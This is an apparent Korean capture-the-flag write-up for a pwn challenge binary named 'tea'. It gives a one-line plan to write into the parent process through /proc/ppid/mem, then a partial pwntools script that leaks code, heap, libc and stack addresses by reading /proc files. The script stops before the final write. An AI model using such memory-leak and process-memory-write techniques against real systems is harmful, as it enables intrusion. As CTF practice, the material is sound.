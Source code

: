 따라서 **stdin_error**를 닫아버리고 `open(/proc/ppid/mem)`하여 `lseek()`를 적절히 사용하여 `write()`하면 됩니당 



# Solve.py

```python
#!/usr/bin/python
from pwn import *

def parsing_maps():
	r.recvuntil('bytes\n')
	data = r.recvuntil('[vsyscall]')
	data = data.split('\n')
	parent_code_base = int(data[0].split('-')[0], 16)
	for a in data:
		if 'heap' in a and 'rw-p' in a:
			heap_base = int(a.split('-')[0], 16)

		if 'libc' in a and 'r-xp' in a:
			libc_base = int(a.split('-')[0], 16)
			child_base = libc_base - 0x100000000000
			break

	r.sendlineafter('quit? (y/n)\n', 'n')

	return parent_code_base, child_base, heap_base, libc_base

def parsing_ppid():
	r.recvuntil('bytes\n')
	data = r.recvuntil('TracerPid:')
	data = data.split('\n')
	for a in data:
		if 'PPid' in a:
			break
	r.sendlineafter('quit? (y/n)\n', 'n')

	return int(a.split(':')[1], 10)

def readfile(filename, offset, count, data, flag='else'):
	r.sendlineafter('(r)ead or (w)rite access?\n', 'r')
	r.sendlineafter('filename?\n', filename)
	r.sendlineafter('lseek?\n', str(offset))
	r.sendlineafter('count?\n', (count))
	
	if flag == 'maps':
		return parsing_maps()
	elif flag == 'ppid':
		return parsing_ppid()
	elif flag == 'input':
		r.sendline(data)
		return
	elif flag == 'stack_leak':
		r.sendline(data)
		r.recvregex('read \d+ bytes\n')
		leak = u64(r.recv(6).ljust(8,'\x00'))
		r.sendlineafter('quit? (y/n)\n', 'n')
		return leak
	else:
		return

r = process('./tea')
context.log_level = 'debug'

```